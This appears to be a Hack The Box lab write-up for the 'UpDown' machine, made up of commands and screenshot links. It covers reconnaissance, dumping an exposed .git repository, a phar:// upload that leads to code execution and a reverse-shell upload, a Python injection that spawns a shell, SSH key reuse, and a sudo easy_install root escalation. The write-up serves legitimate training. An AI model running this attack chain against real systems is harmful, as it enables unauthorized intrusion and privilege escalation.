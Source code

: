 ```
nmap -sS -sC -sV -T5 -Pn 10.10.11.177
nmap -p- -T5 10.10.11.177
nmap -sU -T5 10.10.11.177
```
![image](https://github.com/regarmulia/HTB/assets/33616880/15bb628f-5350-404b-b2d7-eafb2335761d)

![image](https://github.com/regarmulia/HTB/assets/33616880/5fae680f-c693-4297-8d4f-fad45d708e18)

![image](https://github.com/regarmulia/HTB/assets/33616880/9e42e535-c455-4d85-9a9d-a039eb16e54c)

```
ffuf -w /usr/share/seclists/Discovery/Web-Content/raft-medium-words-lowercase.txt -u http://10.10.11.177/FUZZ -fs 277 -e .aspx,.php,.txt,.html,.sh
```
![image](https://github.com/regarmulia/HTB/assets/33616880/077ed537-45e8-4ea9-a060-f12c713317de)

```
gobuster dir -u 10.10.11.177 -w /usr/share/dirb/wordlists/common.txt
gobuster dir -u http://10.10.11.177/dev/ -w /usr/share/dirb/wordlists/common.txt
```
![image](https://github.com/regarmulia/HTB/assets/33616880/a61a87b5-2384-4c18-ae4a-8205a3a644e5)

```
http://10.10.11.177/
http://10.10.11.177/dev/
http://10.10.11.177/dev/.git/
```
![image](https://github.com/regarmulia/HTB/assets/33616880/4d1ba772-886d-495b-95bd-41ee263f6786)

![image](https://github.com/regarmulia/HTB/assets/33616880/4027a9c2-5c52-457e-866a-f7cfee17108e)

![image](https://github.com/regarmulia/HTB/assets/33616880/535382da-97dd-4bc7-bc70-907ad859d45b)

```
pip install git-dumper
git-dumper http://10.10.11.177/dev/.git /home/itsec/Documents/HTB-UpDown/dev/
```
![image](https://github.com/regarmulia/HTB/assets/33616880/4204b7d4-86e5-4e5a-947e-75a493b4fe48)

![image](https://github.com/regarmulia/HTB/assets/33616880/80273182-2492-48e9-b019-065cb1185564)

![image](https://github.com/regarmulia/HTB/assets/33616880/f0a4a58e-1c6b-4703-8daf-0ff81cfbad8c)

```
git log
```
![image](https://github.com/regarmulia/HTB/assets/33616880/7e72fada-0ecf-4f5e-81af-79687122e623)

![image](https://github.com/regarmulia/HTB/assets/33616880/a720577a-bbc2-45fe-a3f7-db57d1c5cbda)

```
Proxy – Match and replace rules
```
![image](https://github.com/regarmulia/HTB/assets/33616880/f976a607-593e-48e1-a9e3-6e52253ea074)

```
http://dev.siteisup.htb/
```
![image](https://github.com/regarmulia/HTB/assets/33616880/97dc16bf-d314-4448-887b-3590a4e5f338)

![image](https://github.com/regarmulia/HTB/assets/33616880/031e235e-781f-46ac-83e3-8b3c2ec7a69f)

![image](https://github.com/regarmulia/HTB/assets/33616880/0838e7c3-ae2c-42ce-a472-bfe74caf82ab)

```
echo "<?php phpinfo(); ?>" > info.php
zip info.zip info.php
mv info.zip info.txt
```
![image](https://github.com/regarmulia/HTB/assets/33616880/652bec68-34c3-4bcb-b23b-cdd3072aff64)

```
http://dev.siteisup.htb/uploads/
```
![image](https://github.com/regarmulia/HTB/assets/33616880/d4792383-cb0f-4616-add7-2c23d4b235ae)

![image](https://github.com/regarmulia/HTB/assets/33616880/da408073-3391-482f-ab16-ebc049727f47)

```
http://dev.siteisup.htb/?page=phar://uploads/81d6840826b9f6ab35021cfbc006b9be/info.txt/info
```
![image](https://github.com/regarmulia/HTB/assets/33616880/5f3e5e9c-7c23-49e2-88e4-462971c8f3db)

```
https://github.com/teambi0s/dfunc-bypasser
./dfunc-bypasser.py --url 'http://dev.siteisup.htb/?page=phar://uploads/e744af4911ee9e365e53bebef0ee2496/info.txt/info'
```
![image](https://github.com/regarmulia/HTB/assets/33616880/d79e28d9-f6a5-457e-8072-707a93be3a57)

```
nano rev.php
zip rev.zip rev.php
mv rev.zip rev.txt
```
![image](https://github.com/regarmulia/HTB/assets/33616880/fe3d33c7-2356-4a7b-bf40-3ef2f4d2b221)

![image](https://github.com/regarmulia/HTB/assets/33616880/a2144978-4e6c-499a-8fdf-9cf5fd9ecd1f)

![image](https://github.com/regarmulia/HTB/assets/33616880/4c062487-c2f0-4abc-b1cc-87a0f86936db)

```
cd /home/developer/dev
```
![image](https://github.com/regarmulia/HTB/assets/33616880/11e376a2-b3fd-4ad4-ab4d-1d3531773f26)

```
./siteisup
__import__('os').system('/bin/bash')
```
![image](https://github.com/regarmulia/HTB/assets/33616880/20f8a856-a577-4e6a-aa76-e4b3b771b94c)

```
cd .ssh
chmod 600 id_rsa
ssh -i id_rsa developer@10.10.11.177
```
![image](https://github.com/regarmulia/HTB/assets/33616880/35331faa-74b7-4450-b2db-63f77f1f9eab)

![image](https://github.com/regarmulia/HTB/assets/33616880/e668dfc6-5860-4451-9e77-3b599197e3db)

![image](https://github.com/regarmulia/HTB/assets/33616880/229d6715-841c-4ec2-9749-1a94b1b39e59)

![image](https://github.com/regarmulia/HTB/assets/33616880/f4a34c73-95a0-4f58-bb6e-5700695b4876)

```
sudo –l
https://gtfobins.github.io/gtfobins/easy_install/
TF=$(mktemp -d)
echo "import os; os.execl('/bin/sh', 'sh', '-c', 'sh <$(tty) >$(tty) 2>$(tty)')" > $TF/setup.py
sudo easy_install $TF
```
![image](https://github.com/regarmulia/HTB/assets/33616880/5a777a1d-ea59-4905-8cb4-e0b6c4947f8e)

![image](https://github.com/regarmulia/HTB/assets/33616880/5c5df04a-4057-40b9-b532-5d2eae8accad)
